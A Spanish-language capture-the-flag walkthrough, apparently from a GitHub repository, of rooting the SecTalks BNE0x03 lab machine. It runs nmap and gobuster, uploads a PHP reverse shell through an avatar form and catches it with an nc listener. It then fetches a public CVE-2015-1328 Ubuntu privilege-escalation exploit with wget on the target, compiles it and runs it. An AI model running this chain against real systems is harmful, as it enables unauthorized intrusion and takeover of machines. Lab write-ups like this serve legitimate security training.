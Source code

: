 # HACKEO A MÁQUINA SECTALKS BNE0X03

En primer lugar, realizamos un escaneo de puertos con ayuda de la herramienta nmap a la ip víctima.

> nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn IP -oN escaneo

Abrimos el reporte con nano y observamos que el puerto 80 está abierto. Esto nos indica que nos encontramos ante un servidor web, además podemos ver la versión de Apache.

![paso1](https://github.com/Destri0/Ciberseguridad/assets/109970051/7536dd12-5e72-4f77-ba16-2cb7eaa6ed95)

Introducimos la ip víctima en nuestro buscador y vemos un panel de login.

![Paso2](https://github.com/Destri0/Ciberseguridad/assets/109970051/a5299879-49e6-4661-b822-3e42eb3e46a5)

En este caso, al existir un apartado de registro procedemos a nuestro registro en la web.

![Paso3](https://github.com/Destri0/Ciberseguridad/assets/109970051/d16234f4-c21e-46e8-b050-2ed37433cb93)

Una vez registrado buscaremos por toda la página un lugar donde se pueda subir un archivo.

![Paso4](https://github.com/Destri0/Ciberseguridad/assets/109970051/7fb0ae53-0fb7-4b44-bdfa-e734372a4e24)

Encontramos en el apartado de Personal options un lugar para subir nuestro avatar. Aprovecharemos eso para subir una reserve shell.
Antes utilizaremos la herramienta gobuster para ver las direcciones que tiene la ip víctima donde se podría subir ese archivo.

> gobuster dir -u http://IP_VICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowecase-2.3-medium.txt

![Paso5](https://github.com/Destri0/Ciberseguridad/assets/109970051/00faa6fa-6e38-4742-9b6e-d48fbe463c95)

Una vez ejecutado el comando podremos observar que la ip víctima tiene un directorio de subidas. Ahí encontraremos nuestra reserve shell cuando la subamos.
Abrimos el directorio de /uploads en nuestro buscador.
Después utilizaremos la siguiente reverse shell.

> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

En ese archivo cambiaremos la ip y pondremos la ip desde donde estamos realizando el ataque y el puerto lo cambiaremos por el 433 que será nuestro puerto de escucha.
Una vez que tenemos el archivo editado lo subiremos al apartado de avatar y observaremos que si nos vamos a /uploads encontraremos el archivo subido.

![Paso6](https://github.com/Destri0/Ciberseguridad/assets/109970051/fba5ac03-3226-4713-b6a0-85afe5d474bf)

Ahora nos pondremos en escucha por el puerto 433 en nuestra consola con el siguiente comando.

> nc -nlvp 433

![Paso7](https://github.com/Destri0/Ciberseguridad/assets/109970051/4fd8dd9f-b57c-4484-a689-3d5dc8f4da13)

Una vez que nos encontramos en escucha por el puerto 433 de nuestra consola nos vamos al directorio de /uploads y pinchamos en nuestro archivo para que se ejecute.

![Paso8](https://github.com/Destri0/Ciberseguridad/assets/109970051/faccc3cb-ca42-4c82-8e54-4f2ababb4608)

Podemos ver en nuestra consola que tenemos acceso a la máquina víctima, pero no tenemos permisos de root.
En este caso ejecutamos el siguiente comando para ver en que version del sistema operativo nos encontramos.

> lsb_release -a

Vemos que nos encontramos en Ubuntu 14.04 y que es una version muy antigua de Ubuntu. Ejecutamos unas busquedas en internet sobre vulneravilidades de escalada de privilegios de la version y 14.04 de ubuntu.
Encontramos una vulneravilidad que es la CVE-2015-1328. Además encontramos un script en github que será el que utilicemos, que es el siguiente.

> https://github.com/DarkenCode/PoC/blob/master/CVE-2015-1328/CVE-2015-1328.c

Dentro de la máquina víctima nos colocaremos en el directorio de tmp.

> cd tmp

Después ejecutaremos el comando siguiente para descargar el archivo en nuestra máquina víctima.

> wget https://raw.githubusercontent.com/DarkenCode/PoC/master/CVE-2015-1328/CVE-2015-1328.c

Si ejecutamos el comando ls podemos observar que se ha descargado el archivo en nuestra máquina víctima.

![Paso9](https://github.com/Destri0/Ciberseguridad/assets/109970051/8972d014-f06b-41c8-ac85-db328b740480)

Tras eso ejecutaremos el siguiente comando para ejecutar el exploit.
> gcc CVE-2015-1328.c -o exploit && ./exploit

Tras eso sí ejecutamos el comando
> whoami

![Paso10](https://github.com/Destri0/Ciberseguridad/assets/109970051/8c1b4f7d-2718-406e-92d9-2f7040636281)

Podemos observar que hemos ganado acceso total a la máquina víctima como root.

Máquina vulnerada al completo.
